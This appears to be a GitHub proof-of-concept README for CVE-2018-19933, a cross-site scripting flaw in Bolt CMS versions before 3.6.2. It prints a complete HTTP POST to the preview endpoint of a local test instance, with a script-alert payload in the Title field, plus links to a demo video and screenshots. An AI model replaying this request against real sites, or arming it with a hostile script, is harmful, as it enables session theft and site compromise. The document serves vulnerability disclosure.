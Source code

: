 # Bolt CMS <3.6.2 - Cross-Site Scripting Vulnerability
 Bolt CMS &lt;3.6.2 - Cross-Site Scripting Vulnerability

# CVE-2018-19933
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19933

# Proof of Concept
To exploit vulnerability, Bolt CMS <3.6.2 allows XSS via text input click preview button as demonstrated by the Title field of a Configured and New Entry.

 ```
 POST /preview/page HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/bolt/editcontent/pages
Content-Type: application/x-www-form-urlencoded
Content-Length: 396
Connection: close
Cookie: bolt_session_cf7976ea5999f8e272ce7cd50c84d240=14b61865131cf9422af970ae28a097b7; bolt_authtoken_cf7976ea5999f8e272ce7cd50c84d240=0b69633d5a549f19bf3faa88462b7b8e17ba57ba9dff6d25a708efe6dd6a9a04
Upgrade-Insecure-Requests: 1

content_edit%5B_token%5D=jMmm41dJQXpXx3gwE_VQkA60fdsNo6DERJClPVkYh7U&editreferrer=&contenttype=pages&title=%3Cscript%3Ealert%28%22Raif%22%29%3C%2Fscript%3E&slug=script-alert-raif-script&image%5Bfile%5D=&files%5B%5D=&teaser=&body=&template=&taxonomy%5Bgroups%5D%5B%5D=&taxonomy-order%5Bgroups%5D=0&id=&status=draft&datepublish=2018-12-07+00%3A12%3A05&datedepublish=&ownerid=1&_live-editor-preview=

 ```
 
 # Proof of Concept (Video)
 
[![PoC_Video](http://img.youtube.com/vi/3eTPyIpjCJg/0.jpg)](http://www.youtube.com/watch?v=3eTPyIpjCJg "")

# Screenshots
 
![PoC_1](https://raw.githubusercontent.com/rdincel1/Bolt-CMS-3.6.2---Cross-Site-Scripting/master/PoC_1.PNG)
![Request](https://raw.githubusercontent.com/rdincel1/Bolt-CMS-3.6.2---Cross-Site-Scripting/master/burp.PNG)
